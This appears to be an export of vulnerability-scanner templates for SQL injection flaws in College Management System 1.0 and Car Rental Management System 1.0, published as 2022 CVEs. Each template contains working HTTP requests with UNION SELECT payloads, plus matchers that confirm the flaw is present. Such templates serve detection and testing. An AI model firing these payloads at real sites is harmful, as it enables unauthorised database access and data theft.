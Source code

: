 # College Management System 1.0 - SQL Injection
## Description
- College Management System 1.0 contains a SQL injection vulnerability via the course code parameter.

- severity - high
- tags - cve,cve2022,sqli,cms,collegemanagement
## Requests
### Step - 1
```
POST /admin/asign-single-student-subjects.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

submit=Press&roll_no=3&course_code=sd' UNION ALL SELECT CONCAT(md5({{num}}),12,21),NULL,NULL,NULL,NULL#

```
### Matchers

**Type - word**
- words
    1. {{md5({{num}})}}

**Type - status**
- status
    1. 302

---
# Car Rental Management System 1.0 - SQL Injection
## Description
- Car Rental Management System 1.0 contains an SQL injection vulnerability via /admin/manage_user.php?id=. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.

- severity - high
- tags - cve,cve2022,carrental,cms,sqli,authenticated
## Requests
### Step - 1
```
POST /admin/ajax.php?action=login HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

username={{username}}&password={{password}}

```
### Step - 2
```
GET /admin/manage_user.php?id=-1%20union%20select%201,md5({{num}}),3,4,5--+ HTTP/1.1
Host: {{Hostname}}

```
### Matchers
